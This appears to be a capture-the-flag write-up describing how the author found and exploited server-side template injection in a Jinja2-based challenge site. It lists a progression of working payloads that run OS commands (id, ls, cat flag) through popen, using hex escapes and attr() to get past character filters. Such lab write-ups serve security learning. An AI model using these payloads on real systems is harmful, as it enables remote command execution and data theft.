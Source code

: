 # Recon
## Overview of the target
- A basic html site without any css at all
- having an input field
<img width="1440" height="233" alt="Screenshot_2025-09-09_23-26-57" src="https://github.com/user-attachments/assets/63d307ff-8d7a-439c-bd0c-c7548e99bf1d" />
<img width="1920" height="384" alt="Screenshot_2025-09-10_19-19-48" src="https://github.com/user-attachments/assets/a44bcb75-c9de-4280-96c1-5a4465d23a2a" />

The title of the challenge gives me a hint to find server template injection which I came across this [source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#inject-template-syntax) (PayloadsAllTheThings, Github)
<img width="768" height="464" alt="Screenshot_2025-09-10_19-22-37" src="https://github.com/user-attachments/assets/b2286994-e2e2-4068-8b86-7fd718f55fe3" />
Then I tried this payload 
<img width="773" height="227" alt="Screenshot_2025-09-10_19-32-46" src="https://github.com/user-attachments/assets/7970caf9-86ff-41f7-8133-f6eac3556dc7" />
and it worked
<img width="1920" height="279" alt="Screenshot_2025-09-10_19-32-55" src="https://github.com/user-attachments/assets/152e69a9-0a3d-4b48-a578-ed32279948b5" />
Then I deducted that this site use Jinja2 server template -> My mission is to find payloads for this template
I came across this [source](https://onsecurity.io/article/server-side-template-injection-with-jinja2/) for the payloads
- {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} ->block "." then:
- {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}} -> block “.” and “_” then:
- {{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}} -> block .”, “_”, “[]” and “|join” then using this to bypass all :
- {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}} -> worked!!!
<img width="1920" height="395" alt="Screenshot_2025-09-10_19-42-43" src="https://github.com/user-attachments/assets/dee05cd4-f607-4294-a430-53de8f537d32" />
So I just needed to modify 'id' into 'ls' to know the name of the file containing the flag
<img width="1920" height="437" alt="Screenshot_2025-09-10_21-26-11" src="https://github.com/user-attachments/assets/0eab31c9-3382-45f4-9dcf-7820bf517afa" />
so again modifying the key word 'ls' int 'cat flag' then we got the flag

# Reference
“Server Side Template Injection with Jinja2 - OnSecurity.” OnSecurity, 27 Aug. 2025, onsecurity.io/article/server-side-template-injection-with-jinja2/. Accessed 10 Sept. 2025.

swisskyrepo. “PayloadsAllTheThings/Server Side Template Injection at Master · Swisskyrepo/PayloadsAllTheThings.” GitHub, 2016, github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#inject-template-syntax. Accessed 10 Sept. 2025.
